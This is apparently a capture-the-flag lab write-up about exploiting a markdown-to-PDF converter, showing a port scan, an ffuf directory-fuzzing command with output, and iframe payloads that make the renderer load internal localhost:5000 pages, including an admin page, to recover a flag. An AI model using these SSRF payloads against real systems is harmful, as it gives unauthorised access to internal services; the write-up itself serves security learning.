 ﻿---
sticker: lucide//code
---

# PORT SCAN
---


| PORT | SERVICE |
| :--- | :------ |
| 22 | SSH |
| 80 | HTTP |
| 5000 | RSTP |



# RECONNAISSANCE
---

If we check the web application, we can see this:


![Pasted image 20250617123928.png](../../IMAGES/Pasted%20image%2020250617123928.png)

As seen, we can convert markdown to pdf, this is highly vulnerable since at its core it blindly hands our Markdown straight off to a serverâ€‘side renderer, whether thatâ€™s a headless browser or Pandoc+LaTeX with no filtering or authentication. 

That means we can sneak in `<script>` tags or raw LaTeX commands and make the server fetch internal URLs (like `localhost:5000/resource`) or even execute shell commands. In short, untrusted input becomes powerful SSRF or RCE, exposing private admin panels and letting attackers run arbitrary code.

If we fuzz, we can find this:

```bash
ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u "http://10.10.129.226/FUZZ" -ic -c -t 200 -e .php,.html,.txt,.git,.js

 /'___\ /'___\ /'___\
 /\ \__/ /\ \__/ __ __ /\ \__/
 \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
 \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
 \ \_\ \ \_\ \ \____/ \ \_\
 \/_/ \/_/ \/___/ \/_/

 v2.1.0-dev
________________________________________________

 :: Method : GET
 :: URL : http://10.10.129.226/FUZZ
 :: Wordlist : FUZZ: /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
 :: Extensions : .php .html .txt .git .js
 :: Follow redirects : false
 :: Calibration : false
 :: Timeout : 10
 :: Threads : 200
 :: Matcher : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

admin [Status: 403, Size: 166, Words: 15, Lines: 5, Duration: 231ms]
```

We can find an admin resource on here, if we try accessing it, this happens:

![Pasted image 20250617124337.png](../../IMAGES/Pasted%20image%2020250617124337.png)

Based on that, we now we can exploit the md2pdf site to achieve access to the admin resource, let's do it.


# EXPLOITATION
---

First of all, we need to exfiltrate the data, we can use the following payload:

```js
<iframe src="http://localhost:5000"></iframe>
```

We use iframe to achieve `SSRF`, basically the pdf engine will render the internal resource and give us access to it, let's test it out:



![Pasted image 20250617125048.png](../../IMAGES/Pasted%20image%2020250617125048.png)

![Pasted image 20250617125056.png](../../IMAGES/Pasted%20image%2020250617125056.png)

It works, let's read admin resource then:

```js
<iframe 
 src="http://localhost:5000/admin" 
 style="width:100%; height:1000px; border:none; overflow:hidden;">
</iframe>
```

![Pasted image 20250617125137.png](../../IMAGES/Pasted%20image%2020250617125137.png)

![Pasted image 20250617125144.png](../../IMAGES/Pasted%20image%2020250617125144.png)

We got our flag:

```
flag{1f4a2b6ffeaf4707c43885d704eaee4b}
```

![Pasted image 20250617125225.png](../../IMAGES/Pasted%20image%2020250617125225.png)

